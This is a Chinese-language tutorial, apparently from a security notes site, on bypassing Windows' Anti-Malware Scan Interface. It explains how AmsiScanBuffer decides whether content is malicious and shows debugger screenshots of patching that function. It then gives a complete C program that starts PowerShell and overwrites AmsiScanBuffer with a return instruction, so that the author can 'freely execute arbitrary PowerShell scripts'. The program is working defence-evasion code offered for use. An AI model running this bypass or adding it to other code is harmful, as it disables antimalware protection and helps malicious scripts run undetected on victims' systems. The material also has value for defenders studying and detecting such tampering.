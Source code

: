 # 基于内存补丁的AMSI绕过

## AMSI简介

AMSI的全称是反恶意软件扫描接口（Anti-Malware Scan Interface），是从Windows 10开始引入的一种机制。AMSI是应用程序和服务能够使用的一种接口，程序和服务可以将“数据”发送到安装在系统上的反恶意软件服务（如Windows Defender）。

服务和应用程序可以通过AMSI来与系统中已安装的反恶意软件通信。为了完成该任务，AMSI采用了hook方法。比如，AMSI会hook WSH（Windows Scripting Host）及PowerShell来去混淆并分析正在执行的代码内容。这些内容会被“捕获”，并在执行之前发送给反恶意软件解决方案。

在Windows 10上，实现AMSI的所有组件如下所示：

* UAC（用户账户控制），安装EXE、COM、MSI或者ActiveX时提升权限
* PowerShell（脚本、交互式使用以及动态代码执行）
* Windows Script Host（`wscript.exe`或者`cscript.exe`）
* JavaScript以及VBScript
* Office VBA宏

AMSI整体架构如下图所示：

![](../.gitbook/assets/image%20%2830%29.png)

简单的说AMSI就是这玩意:

![](../.gitbook/assets/image%20%2865%29.png)

## 技术原理&流程

根据前人的研究，我们知道字符串是否敏感是由amsi.dll中的AmsiScanBuffer函数来进行判断的，而内存补丁是一种较为便捷的技术，我们可以对这个函数进行修补，使其丧失判断能力，这样我们就能自由执行任意powershell脚本，当然前提是脚本文件没有被杀软干掉。

实现方式有很多种，如注入一个内存修补功能的dll、获取amsiscanbuffer函数地址使用winapi进行修补。

这里我们使用获取函数地址对其进行修补，流程如下：

1. 创建一个powershell进程
2. 获取amsiscanbuffer函数地址
3. 修改函数内存空间属性
4. 修补函数执行体

前面文章有阐述过目前windows不同进程加载同一个系统模块的地址是一致的，所以我们可以使用本地加载dll获取对应函数地址去修补其他进程的该函数。

> 根据微软官方文档，`AmsiScanBuffer`函数应该返回`HRESULT`类型值，这是一个整数值，用来表示操作是否成功。在我们的例子中，如果该函数成功，那么就应当返回`S_OK`（`0x00000000`），否则应该返回`HRESULT`错误代码。
>
> 这个函数的主要功能是返回需要扫描的内容是否存在问题，这也是`result`变量会作为参数传递给`AmsiScanBuffer`函数的原因所在。这个变量的类型为`AMSI_RESULT`枚举类型。
>
> 对应的枚举原型如下所示：
>
> ```text
> typedef enum AMSI_RESULT {
>     AMSI_RESULT_CLEAN,
>     AMSI_RESULT_NOT_DETECTED,
>     AMSI_RESULT_BLOCKED_BY_ADMIN_START,
>     AMSI_RESULT_BLOCKED_BY_ADMIN_END,
>     AMSI_RESULT_DETECTED
> };
> ```
>
> 在函数执行过程中，待分析的内容会被发送到反恶意软件服务，后者会返回`1`到`32762`（含）之间的一个整数。整数值越大，则代表风险越高。如果证书大于或等于`32762`，那么就会将其判断为恶意数据，加以阻止。随后系统会根据返回的整数值来更新`AMSI_RESULT`变量值。
>
> 默认情况下，该变量处于“正常”（“无害”）值状态，因此，如果我们修改了函数指令，使其永远不会将待分析的内容发送给反恶意软件服务，并且返回`S_OK` `HRESULT`结果值，那么这些内容就会被当成无害数据。
>
> 在汇编语言中，`EAX`（32位）以及`RAX`（64位）寄存器始终包含函数的返回值。因此，如果`EAX`/`RAX`寄存器值等于0，并且如果执行了`ret`汇编指令，那么该函数就会返回`S_OK` `HRSULT`，不会将待分析数据发送给反恶意软件服务。

事实上对于字符串的拦截工作是在AmsiScanBuffer函数内完成的,并非在AmsiScanBuffer返回后由其他函数拦截，这也解释了为什么我们直接ret也能绕过AMSI\(此时RAX内存放着AmsiScanBuffer的地址，无论如何也远大于32762\)。

## 手工操作

创建一个powershell进程

![](../.gitbook/assets/image%20%2867%29.png)

调试器附加并定位AmsiScanBuffer函数

![](../.gitbook/assets/image%20%2813%29.png)

修补该函数使其直接返回\(具体细节大家可以使用ida和x64dbg跟一下\)。

![](../.gitbook/assets/image%20%2863%29.png)

![](../.gitbook/assets/image%20%2860%29.png)

绕过AMSI。

![](../.gitbook/assets/image%20%2843%29.png)

## 代码实现

由于powershell版的内存补丁绕过在互联网上导出都是，这里就补贴出来了\(好吧其实是我烂\)，这里我们其实也有多种实现思路，可以查找运行中的powershell.exe进程来进行修补，也可以自己创建一个新的powershell进程进行修补，这里采用新创建的powershell进行修补。

```text
#include <Windows.h>
#include <stdio.h>

int main() {
	STARTUPINFOA si = {0};
	PROCESS_INFORMATION pi = { 0 };
	si.cb = sizeof(si);

	CreateProcessA(NULL, (LPSTR)"powershell -NoExit dir", NULL, NULL, NULL, NULL, NULL, NULL, &si, &pi);

	HMODULE hAmsi = LoadLibraryA("amsi.dll");
	LPVOID pAmsiScanBuffer = GetProcAddress(hAmsi, "AmsiScanBuffer");

	Sleep(500);

	DWORD oldProtect;
	char patch = 0xc3;

	VirtualProtectEx(pi.hProcess, (LPVOID)pAmsiScanBuffer, 1, PAGE_EXECUTE_READWRITE, &oldProtect);
	WriteProcessMemory(pi.hProcess, (LPVOID)pAmsiScanBuffer, &patch, sizeof(char),NULL);
	VirtualProtectEx(pi.hProcess, (LPVOID)pAmsiScanBuffer, 1, oldProtect, NULL);
	CloseHandle(pi.hProcess);
	CloseHandle(pi.hThread);
	FreeLibrary(hAmsi);
	return 0;
}
```

## LINKS

{% embed url="https://www.contextis.com/en/blog/amsi-bypass" %}

{% embed url="https://www.anquanke.com/post/id/168210" %}

{% embed url="https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html" %}

{% embed url="https://www.anquanke.com/post/id/180281" %}



